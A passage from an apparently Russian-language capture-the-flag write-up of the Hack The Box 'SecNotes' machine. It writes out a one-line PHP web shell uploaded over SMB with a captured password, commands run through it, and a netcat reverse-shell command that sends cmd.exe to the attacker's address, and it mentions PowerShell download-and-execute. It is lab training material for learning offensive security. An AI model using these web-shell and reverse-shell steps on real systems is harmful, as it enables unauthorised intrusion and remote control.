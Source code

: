 Непохоже, чтобы это счастье относилось к 80-у порту, но мы помним, что у нас есть еще один открытый неисследованный порт — 8808. И это и правда он:

[![port80-browser-10.png]({{ "/img/htb/boxes/secnotes/port80-browser-10.png" | relative_url }})]({{ "/img/htb/boxes/secnotes/port80-browser-10.png" | relative_url }})

# Шелл от имена Тайлера
## Web-Shell
Так как мы имеем доступ на чтение в директорию `\new-site`, дропнем туда простой веб-шелл на PHP с помощью [smbclient](https://snovvcrash.github.io/2018/12/17/htb-active-write-up.html#smbclient "HTB{ Active } / snovvcrash’s Security Blog"):
```text
root@kali:~# cat webshell.php
<?php system($_REQUEST['cmd']); ?>

root@kali:~# smbclient '\\10.10.10.97\new-site' -U 'tyler%92g!mA8BGjOirkL%OG*&' -c 'put webshell.php evil.php'
putting file webshell.php as \evil.php (0.2 kb/s) (average 0.2 kb/s)

root@kali:~# curl 'http://10.10.10.97:8808/evil.php?cmd=whoami'
secnotes\tyler
```

Отлично! Теперь есть возможность выполнения кода.

## Reverse-Shell
Когда речь идет о Windows-хосте, есть несколько способов апгрейда веб-шелла до полноценного интерактивного шелла. Один из наиболее элегантных, на мой взгляд, это использование пауэршеловского Invoke-Expression `powershell IEX()` с аргументом `webclient.downloadstring()`, нацеленным, в свою очередь, на загрузку чего-то наподобие [Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1 "nishang/Invoke-PowerShellTcp.ps1 at master · samratashok/nishang") от Nishang. Однако в случае, когда у нас есть полноценный доступ на запись, можно [вместе с бэкдором (веб-шеллом)]({{ page.url }}#secnotes_reverse_tcpsh) кинуть на жертву [nc.exe](https://eternallybored.org/misc/netcat/ "netcat 1.11 for Win32/Win64"), чтобы не усложнять себе жизнь:
```text
root@kali:~# locate nc.exe
/usr/share/seclists/Web-Shells/FuzzDB/nc.exe
/usr/share/sqlninja/apps/nc.exe
/usr/share/windows-binaries/nc.exe

root@kali:~# smbclient '\\10.10.10.97\new-site' -U 'tyler%92g!mA8BGjOirkL%OG*&' -c 'put /usr/share/windows-binaries/nc.exe nc.exe'
putting file /usr/share/windows-binaries/nc.exe as \nc.exe (158.0 kb/s) (average 158.0 kb/s)
```

Триггерим подключение к нашей машине через curl:
```text
root@kali:~# curl 'http://10.10.10.97:8808/evil.php?cmd=nc.exe+10.10.14.71+443+-e+c:\windows\system32\cmd.exe'

```
